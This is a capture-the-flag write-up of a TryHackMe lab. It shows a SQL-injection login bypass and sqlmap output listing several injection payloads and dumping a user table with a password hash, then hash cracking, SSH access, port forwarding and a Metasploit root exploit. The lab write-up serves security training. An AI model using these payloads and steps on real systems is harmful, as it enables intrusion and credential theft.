 # Gamer Zone CTF

A writeup on the challenge from TryHackMe!


### nmap
To start off, we do an nmap scan to see some of the running services.

`nmap -sV -O 10.10.245.4 -vv`

![s1](images/s1.png)

### website

![s2](images/s2.png)


In the login form, we can try to use SQL injection to gain access without needing a password.

![s3](images/s3.png)

This ends one SQL statement by closing it with `'` and then runs `OR` with `1=1` which is a [tautology](https://en.wikipedia.org//wiki/Tautology_(logic)) basically meaning something that is always true. It is closed out with `-- -` which comments out the rest of the query, so that it won't raise any errors. I attempted the injection with `--` (typically how an sql comment looks) but it didn't work. Perhaps there is something that filters our `--` in some way.

We are then brought to the next page
![s4](images/s4.png)

### sqlmap

Let's try a test query and intercept it with Burp.

![s5](images/s5.png)

![s6](images/s6.png)

Copy the request into a file `request.txt` so it can be used in sqlmap.

We are going to try to get the site to dump the entire database.

```
┌──(root㉿kali)-[~]
└─# sqlmap -r request.txt --dbms=mysql --dump        
        ___
       __H__                                                                                                                                                                   
 ___ ___[.]_____ ___ ___  {1.6.10#stable}                                                                                                                                      
|_ -| . [,]     | .'| . |                                                                                                                                                      
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:15:09 /2023-08-09/

[19:15:09] [INFO] parsing HTTP request from 'request.txt'
[19:15:09] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-8207' OR 7248=7248#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=test' AND GTID_SUBSET(CONCAT(0x7162717071,(SELECT (ELT(6226=6226,1))),0x716b706a71),6226)-- efZz

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=test' AND (SELECT 7298 FROM (SELECT(SLEEP(5)))DrfP)-- pcTO

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=test' UNION ALL SELECT NULL,NULL,CONCAT(0x7162717071,0x4a477a4465575a6f644d7a5578425459787a49756e536b5074656f5262776b455a496e4641556c49,0x716b706a71)#
---
[19:15:10] [INFO] testing MySQL
[19:15:10] [INFO] confirming MySQL
[19:15:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[19:15:10] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[19:15:10] [INFO] fetching current database
[19:15:10] [INFO] fetching tables for database: 'db'
[19:15:10] [INFO] fetching columns for table 'users' in database 'db'
[19:15:10] [INFO] fetching entries for table 'users' in database 'db'
[19:15:10] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[19:15:20] [INFO] writing hashes to a temporary file '/tmp/sqlmapksufb8eg17080/sqlmaphashes-0uvi55xd.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[19:15:31] [INFO] table 'db.users' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.245.4/dump/db/users.csv'
[19:15:31] [INFO] fetching columns for table 'post' in database 'db'
[19:15:31] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[19:15:31] [INFO] table 'db.post' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.245.4/dump/db/post.csv'
[19:15:31] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.245.4'
[19:15:31] [WARNING] your sqlmap version is outdated

[*] ending @ 19:15:31 /2023-08-09/
```
Success!

### cracking the password

Now we can prepare our newly found hash `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14` for cracking.

![s7](images/s7.png)

Then we  identify the hash type.

![s8](images/s8.png)

Finally we can run `john` to find the password.

![s9](images/s9.png)


### getting into the system

Use `ssh` to get into the system with our new username and password.

![s10](images/s10.png)

### exposing services with reverse SSH tunnels

We run `ss` to show socket statistics.

![s11](images/s11.png)

There is a TCP service running on port 10000, hypothetically open to remote users. We didn't see this in our nmap scan, so let's investigate further.

![s12](images/s12.png)

It can't be reached as a remote site...

We can use a reverse SSH tunnel to expose this new mystery service.

`ssh -L 10000:localhost:10000 agent47@10.10.145.4`

So we are now forwarding this service to ourselves. 

Check the browser!

![s13](images/s13.png) Log in with the same username and password as we did for SSH. (Please don't reuse passwords in the real world)

![s14](images/s14.png)

Now gives us information about the service running. 


### using an exploit to get root

Now we know what service is running, let's look around for ways to exploit it. For this I will be using `msfconsole`.

![s15](images/s15.png)

Set the options as follows:
![s16](images/s16.png)

Now that everything is set up, we can run the exploit and gain root access!

![s17](images/s17.png)

